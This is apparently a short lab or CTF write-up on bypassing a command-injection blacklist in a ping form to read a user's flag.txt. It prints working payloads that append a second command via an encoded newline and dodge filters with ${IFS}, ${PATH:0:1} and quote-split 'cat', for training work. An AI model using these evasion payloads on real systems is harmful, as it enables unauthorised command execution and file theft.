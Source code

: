 ```yaml
---
description: >-
  Use what you learned in this section find the content of flag.txt in the home
  folder of the user you previously found.
---
```


# Bypassing Blacklisted Commands

We continue to build up on our command in order to bypass the blacklist.&#x20;

First lets list the files inside the user 1nj3c70r. We add `${PATH:0:1}1nj3c70r` to our command:

```bash
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see the `flag.txt` is indeed in the home folder.

Now all we have to to is retrieve the content from the file. To this we need to use the `cat` command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since some basic commands are in the blacklist, if we just insert cat we won't be able to use it in order the see the content of the `flag.txt`.

That's why we have to "break" the command with double-quotes in order to by pass the WAF:

{% code overflow="wrap" %}
```bash
ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
{% endcode %}

The command will be interpreted like this:

```bash
ping -c 1 127.0.0.1; cat /home/1nj3c70r/flag.txt
```

